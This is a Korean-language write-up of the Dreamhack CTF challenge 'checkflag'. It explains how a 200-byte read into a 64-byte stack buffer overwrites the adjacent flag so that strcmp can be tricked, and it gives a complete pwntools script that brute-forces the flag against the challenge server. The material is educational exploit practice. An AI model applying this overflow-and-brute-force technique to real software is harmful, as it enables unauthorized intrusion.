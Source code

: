 dreamhack checkflag
======================

<img width="517" height="403" alt="image" src="https://github.com/user-attachments/assets/5bc42a72-6777-417c-b5a4-d13ec9001002" />

<img width="527" height="388" alt="image" src="https://github.com/user-attachments/assets/fb310698-74e8-465b-98f2-44b8969a5cda" />

"flag" 파일에 저장된 문자열과 사용자가 입력한 문자열이 정확히 일치하는지 확인한다. 

만약 사용자 입력의 길이가 파일의 플래그 길이보다 짧거나 내용이 일치하지 않으면 "Failed!"를 출력하고 종료된다. 

올바른 플래그를 입력하면 "Correct!"를 출력한다.



프로그램 입력에서 발생할 수 있는 **버퍼 오버플로우** 를 이용하는 문제이다.

 * `read(0, v10, 0xC8uLL);`  를 보면 `v10` 버퍼의 크기는 `char v10[64];`로 선언되어 **64바이트**이다.
 * `read` 함수는 `0xC8uLL` (십진수로 200) 바이트를 `v10`에 읽어오도록 지시하고 있다.
 * 사용자가 **64바이트보다 많은 데이터를 표준 입력(stdin)으로 주면 `read` 함수는 `v10` 버퍼의 할당된 공간(64바이트)을 초과하여 스택의 인접한 메모리 영역에 데이터를 덮어쓰게** 된다.


<img width="497" height="151" alt="image" src="https://github.com/user-attachments/assets/8be3e26c-8f69-4bba-a0b1-d3eaab6be36e" />

* 여기서 입력값과 정답을 비교할때 strcmp()는 첫 번째 널문자('\0') 전까지 비교한다.
* 그런데 만약 **input에 널 문자('\0')를 65개 연속으로 입력하면** 메모리 오버플로우로 인해
  flag 버퍼의 첫 글자도 \0으로 덮인다.
* 즉 input도 "", flag도 "" → strcmp는 이 둘을 **같다** 고 인식하게 된다.


그러면 브루트포싱을 사용해 플래그를 알아낼 수 있는데

* flag 일부를 덮어쓰기 위해 입력 길이를 flag까지 넘치게 만들고
* 문자열 비교 결과가 "Correct!"인지 확인해서
* 한 글자씩 줄여가며 이 과정을 반복하며 플래그를 거꾸로 한 글자씩 알아낼 수 있다.


## 익스플로잇 코드


```python
from pwn import *

flag_len = 0
for length in range(0x3f, 0, -1):
    test_payload = b'A' * length
    payload = test_payload + b'\x00' * (0x40 - len(test_payload)) + test_payload

    p = remote('host3.dreamhack.games', 14991)
    p.sendafter(b'flag?', payload)

    if ord('F') in p.recvuntil(b'!\n'):
        flag_len = length + 1
        p.close()
        break
    p.close()

found_flag = b''
for i in range(flag_len - 4):
    for c in range(0x20, 0x7f):
        test_payload = b'A' * (flag_len - 2 - i) + chr(c).encode() + found_flag + b'}'
        payload = test_payload + b'\x00' * (0x40 - len(test_payload)) + b'A' * (flag_len - 2 - i)

        p = remote('host3.dreamhack.games', 14991)
        p.sendafter(b'flag?', payload)

        if ord('C') in p.recvuntil(b'!\n'):
            found_flag = chr(c).encode() + found_flag
            p.close()
            break
        p.close()

print('DH{' + found_flag.decode() + '}')
```

플래그의 길이 추정 → 플래그 내용 브루트포싱의 두 단계로 나누어 작성했다.

### flag_len 찾기 (플래그의 길이 추정)

```python
for length in range(0x3f, 0, -1):  # 0x3f = 63부터 1까지 감소
```

길이 63부터 1까지 시도하며 맞는 길이를 찾는다.

```python
test_payload = b'A' * length
payload = test_payload + b'\x00' * (0x40 - len(test_payload)) + test_payload
```

payload 구조:
  * 입력부: A * length
  * 패딩: null (\x00)로 64바이트 채움
  * 검증부: A * length 재사용
    → 총 64바이트 입력 후 동일한 패턴을 뒤에 붙임.


```python
p.sendafter(b'flag?', payload)
if ord('F') in p.recvuntil(b'!\n'):  # 결과에 'F' 포함 시 길이 맞음
```

* 응답에 'F' ("FLAG" 또는 "FLAG format correct") 문자가 포함되면 해당 길이가 유효
* 이 때의 길이 + 1이 실제 flag 길이로 판단됨



### flag 브루트포싱

* flag는 DH{...} 형식이니까 나머지 flag_len - 4 문자만 브루트포싱하면 된다.
* 뒤에서부터 채우기 (found_flag는 뒤에서부터 쌓임) + 비교 시 "입력 + '}'" 구조로 끝이 맞는지 확인


#### 루프

```python
for i in range(flag_len - 4):  # 남은 flag 문자 수만큼 반복
    for c in range(0x20, 0x7f):  # 아스키 문자 범위 
```

```python
test_payload = b'A' * (flag_len - 2 - i) + chr(c).encode() + found_flag + b'}'
```

* 앞쪽: A로 남은 길이 채움 (공격 벡터 삽입 위치 조정)
* 중간: 현재 시도 중인 문자
* 뒤쪽: 지금까지 알아낸 flag 일부 + '}'

```python
payload = test_payload + b'\x00' * (0x40 - len(test_payload)) + b'A' * (flag_len - 2 - i)
```

전체 payload는 앞에서 만든 입력을 64바이트로 정렬하고, 뒤쪽에 비교용 A 채운다.

```python
if ord('C') in p.recvuntil(b'!\n'):  # 응답에 'C' 포함 시 해당 문자가 정답
    found_flag = chr(c).encode() + found_flag  # 찾은 문자를 앞에 붙임
```

* 'C'가 들어오면 맞는 문자로 간주하고 found_flag에 추가.
* 이렇게 하여 뒤에서부터 한 글자씩 완성됨.

-----------------------------------

<img width="432" height="57" alt="image" src="https://github.com/user-attachments/assets/ae355a17-496b-4c0b-838a-e2843ca2ded6" />



플래그를 이렇게 구할 수 있다.
